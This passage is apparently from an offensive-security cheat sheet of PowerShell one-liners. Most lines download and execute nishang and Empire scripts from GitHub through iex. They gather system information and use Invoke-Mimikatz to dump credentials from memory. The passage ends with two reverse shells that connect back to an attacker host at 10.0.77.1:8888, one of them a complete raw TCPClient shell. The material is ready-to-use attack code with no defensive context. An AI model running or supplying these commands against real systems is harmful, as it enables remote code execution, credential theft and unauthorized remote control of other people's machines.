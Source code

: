 ### Endpoint

Get system information with [**nishang**](https://github.com/samratashok/nishang)

```powershell
iex (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-Information.ps1");Get-Information 
```

Dump credentials from memory with [**nishang**](https://github.com/samratashok/nishang)

```powershell
iex (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1");Invoke-Mimikatz -DumpCreds
```

Dump credentials from memory with **** [**Empire**](https://github.com/BC-SECURITY/Empire) (Invoke-Mimikatz)

```powershell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
```

## Reverse Shell

Reverse Shell with [**nishang**](https://github.com/samratashok/nishang)

```powershell
#reverse shell to connect back to Attacker host (IP: 10.0.77.1, port: 8888)
iex (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1");Invoke-PowerShellTcp -Reverse -IPAddress 10.0.77.1 -Port 8888
```

Reverse Shell with **System.Net.Sockets**

```powershell
$des = New-Object System.Net.Sockets.TCPClient('10.0.77.1',8888);$stream = $des.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$des.Close()
```
